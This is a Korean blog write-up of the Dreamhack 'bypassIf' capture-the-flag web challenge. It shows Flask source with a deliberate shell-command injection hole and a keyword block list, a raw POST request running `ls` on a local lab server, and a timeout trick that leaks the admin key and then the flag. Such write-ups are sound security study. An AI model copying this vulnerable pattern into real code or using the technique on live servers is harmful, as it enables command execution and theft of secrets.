 ```yaml
---
layout: post
title: 'Dreamhack-bypassIf 문제 풀이'
summary: bypassIf 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['web_hacking']
thumbnail: /assets/img/posts/2024-12-01-bypassIf/image.png
keywords: web, authentication_fail
usemathjax: true
permalink: /blog/web_hacking/2024-12-01-bypassIf
---
```


* TOC
{:toc}

<br>

# 0. 행위 확인

<br>

Burp에 넣고 해당 사이트의 하위 URL을 다 들어가 봤다. Sitemap을 확인하기 위한 절차

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image.png){: width="100%" height="100%"}

<br>

/flag 서브url이 보인다.

GET에 파라미터가 들어간다면 그렇게 들어간 파라미터가 이후 flow에서 페이지 템플릿에 반영되는지 여부를 확인하여 rXSS를 해볼 수 있을 것 같은데,

그건 없는 것 같다.

그렇다면 유저와 상호작용하는 부분은 저기 POST 요청만 남는다.

해당 부분을 확인해 보자.

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%201.png){: width="100%" height="100%"}

<br>

내가 테스트 겸 입력했던 key 값이 들어가 있다. 

뭔가 정답이 아니면 302 응답을 통해 루트 도메인으로 리다이렉팅 해주는 것 같다.

문제 제목이 bypassif이니, 아마 if문을 통해 정답 여부를 판별하는 것 같다.

서버 단 에러 메시지를 유발해 웹 프레임워크의 기능을 bypass할지 / 웹 서비스의 기능을 bypass할지 여부를 판별해 보는 것도 흥미로운 접근일 듯해 시도해 보았다.

(높은 확률로 서비스 기능이겠지만 재미있을 것 같아 오버헤드를 감수했다)

<br>

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%202.png){: width="100%" height="100%"}

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%203.png){: width="100%" height="100%"}

<br>

쿠키가 없는 요청이기 때문에 Repeater로 보내 리플레이하더라도 아무 문제 없다.

특수 문자를 넣은 키값을 보내 보았는데 요청 자체는 동일하다. 서버 단에서 그냥 string으로 처리하는 것으로 보이는데….

이제 소스를 들여다보자.

<br>

# 1. 소스 확인(정적 분석)

<br>

```python
@app.route('/flag', methods=['POST'])
def flag():
     # POST request
    if request.method == 'POST':
        key = request.form.get('key', '')
        cmd = request.form.get('cmd_input', '')
        if cmd == '' and key == KEY:
            return render_template('flag.html', txt=FLAG)
        elif cmd == '' and key == guest_key:
            return render_template('guest.html', txt=f"guest key: {guest_key}")
        if cmd != '' or key == KEY: # or로 해둬서 관리자 키값이 필요 없음
            if not filter_cmd(cmd):
                try:
                    output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
                    return render_template('flag.html', txt=output.decode('utf-8'))
                except subprocess.TimeoutExpired:
                    return render_template('flag.html', txt=f'Timeout! Your key: {KEY}')
                except subprocess.CalledProcessError:
                    return render_template('flag.html', txt="Error!")
            return render_template('flag.html')
        else:
            return redirect('/')
    else: 
        return render_template('flag.html')
        
        
# filtering
def filter_cmd(cmd):
    alphabet = list(string.ascii_lowercase)
    alphabet.extend([' '])
    num = '0123456789'
    alphabet.extend(num)
    command_list = ['flag','cat','chmod','head','tail','less','awk','more','grep']

    for c in command_list:
        if c in cmd:
            return True
    for c in cmd:
        if c not in alphabet:
            return True
```

<br>

오

ls -al 해봐야지

커맨드에 띄어쓰기를 넣고 싶어서(ls -al) content-type 헤더에 appliation/json을 추가했는데, 서버에서 인식을 못하는 것 같음

그래서 아래처럼 request를 보내보았음

<br>

```python
POST /flag HTTP/1.1
Host: localhost:8000
Content-Length: 12
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/assets/img/posts/2024-12-01-bypassIf/image/avif,/assets/img/posts/2024-12-01-bypassIf/image/webp,/assets/img/posts/2024-12-01-bypassIf/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

cmd_input=ls
```
<br>

그랬더니 아래와 같은 response를 받음

<br>

```python
.
.
.
<pre>Dockerfile
app.py
flag.txt
requirements.txt
static
templates
</pre>
.
.
.
```
<br>

이건 파이썬 라이브러리인 subprocess.TimeoutExpired의 취약점을 공략하는 게 아니라면

필터링에 안 걸리게 cat flag.txt를 하는 게 아닐까 싶다.

그런데 필터링 못 뚫을 것 같은데. 특수기호 사용이 애초에 막혀있고, application/x-www-form-urlencoded 형식의 Content-Type은 공백만 \+로 인코딩해서 보내는지라

엥? timeout=5 조건이 있잖아

저거만 걸리면 exception 들어갈 것 같다.

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%204.png){: width="100%" height="100%"}

<br>

맞았다.

실제 서버를 생성해 요청을 보내보았다.

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%205.png){: width="100%" height="100%"}

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%206.png){: width="100%" height="100%"}

<br>

admin의 key를 알았으니, `if cmd == '' and key == KEY:` 로 들어갈 수 있도록 요청을 보내보자. 해당 브랜치로 들어가면 FLAG를 리턴하도록 되어 있으니…

![/assets/img/posts/2024-12-01-bypassIf/image.png](/assets/img/posts/2024-12-01-bypassIf/image%207.png){: width="100%" height="100%"}

<br>

플래그를 가져왔다.